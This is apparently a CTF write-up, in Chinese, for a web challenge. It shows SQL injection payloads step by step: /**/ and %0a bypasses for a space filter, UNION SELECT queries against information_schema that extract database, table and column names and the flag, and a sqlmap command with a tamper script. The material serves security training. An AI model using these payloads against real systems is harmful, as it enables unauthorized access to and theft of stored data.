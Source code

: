 # web6
尝试sql注入,
BP抓包,使用1′ or 1=1#发现sql回显错误,测试发现空格被过滤,可用/**/绕过,%0a也可
1'or%0a1=1#
测试闭合符1'or/**/1=1#,1"or/**/1=1#
闭合符为'时有回显

接下来测回显位'or/**/1=1/**/union/**/select/**/1,2,3#,回显位位2 
![](vx_images/222782844368261.png =401x)

'or/**/1=1/**/union/**/select/**/1,group_concat(schema_name),3/**/from(information_schema.schemata)#
()也是绕过的方法之一
![](vx_images/392304693954528.png =825x)

查web2库的表
'or/**/1=1/**/union/**/select/**/1,group_concat(table_name),3/**/from(information_schema.tables)where(table_schema='web2')#
![](vx_images/213846153605390.png =630x)

接下来查列
'or/**/1=1/**/union/**/select/**/1,group_concat(column_name),3/**/from(information_schema.columns)where(table_name='flag')#
![](vx_images/394305566789452.png =572x)
最后查字段
'or/**/1=1/**/union/**/select/**/1,group_concat(flag),3/**/from(flag)#
![](vx_images/196866195696099.png =884x)

最后尝试sqlmap跑将抓取的POST包丢给sqlmap
python sqlmap.py -r /..............(路径) --tamper=space2comment(使用脚本绕过)
更多脚本参考[54774043](https://blog.csdn.net/whatday/article/details/54774043)